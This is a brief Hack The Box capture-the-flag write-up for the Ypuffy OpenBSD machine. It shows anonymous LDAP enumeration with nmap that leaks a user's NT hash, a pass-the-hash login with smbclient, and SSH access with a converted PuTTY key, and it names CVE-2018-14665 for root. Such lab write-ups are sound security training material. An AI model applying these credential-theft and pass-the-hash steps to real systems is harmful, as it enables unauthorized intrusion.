

# USER

Attempted connection to 10.10.10.107:80. But connections are refused.
```
80/tcp  open  http        OpenBSD httpd
```

Lightweight Directory Access Protocol
```
389/tcp open  ldap        (Anonymous bind OK)
```

Running
```
nmap -p 389 --script ldap-search 10.10.10.107
```

Gives
```
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: dc=hackthebox,dc=htb
|     dn: dc=hackthebox,dc=htb
|         dc: hackthebox
|         objectClass: top
|         objectClass: domain
|     dn: ou=passwd,dc=hackthebox,dc=htb
|         ou: passwd
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb
|         uid: bob8791
|         cn: Bob
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         userPassword: {BSDAUTH}bob8791
|         uidNumber: 5001
|         gidNumber: 5001
|         gecos: Bob
|         homeDirectory: /home/bob8791
|         loginShell: /bin/ksh
|     dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
|         uid: alice1978
|         cn: Alice
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         objectClass: sambaSamAccount
|         userPassword: {BSDAUTH}alice1978
|         uidNumber: 5000
|         gidNumber: 5000
|         gecos: Alice
|         homeDirectory: /home/alice1978
|         loginShell: /bin/ksh
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
|         displayName: Alice
|         sambaAcctFlags: [U          ]
|         sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
|         sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
|         sambaPwdLastSet: 1532916644
|     dn: ou=group,dc=hackthebox,dc=htb
|         ou: group
|         objectClass: top
|         objectClass: organizationalUnit
|     dn: cn=bob8791,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: bob8791
|         userPassword: {crypt}*
|         gidNumber: 5001
|     dn: cn=alice1978,ou=group,dc=hackthebox,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: alice1978
|         userPassword: {crypt}*
|         gidNumber: 5000


|     dn: sambadomainname=ypuffy,dc=hackthebox,dc=htb
|         sambaDomainName: YPUFFY
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464
|         sambaAlgorithmicRidBase: 1000
|         objectclass: sambaDomain
|         sambaNextUserRid: 1000
|         sambaMinPwdLength: 5
|         sambaPwdHistoryLength: 0
|         sambaLogonToChgPwd: 0
|         sambaMaxPwdAge: -1
|         sambaMinPwdAge: 0
|         sambaLockoutDuration: 30
|         sambaLockoutObservationWindow: 30
|         sambaLockoutThreshold: 0
|         sambaForceLogoff: -1
|         sambaRefuseMachinePwdChange: 0
|_        sambaNextRid: 1001
```

Noticed that we gain a hash of a password:

```
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
```

This can be used in a **pass the hash attack**

```
0b186e661bbdbdcf6047784de8b9fd8b
```

By using:

```
smbclient \\\\10.10.10.107\\alice -U alice1978 --pw-nt-hash
```

You can use the hash as the password!!

The directory gives us a .ppk private key than can be converted to OpenSSH key using 

```
puttygen
```

This allows us to connect using

```
ssh -i pk.key alive1978@10.10.10.107
```

# ROOT

Using CVE-2018-14665 we can gain root privleges on an OpenBSD System
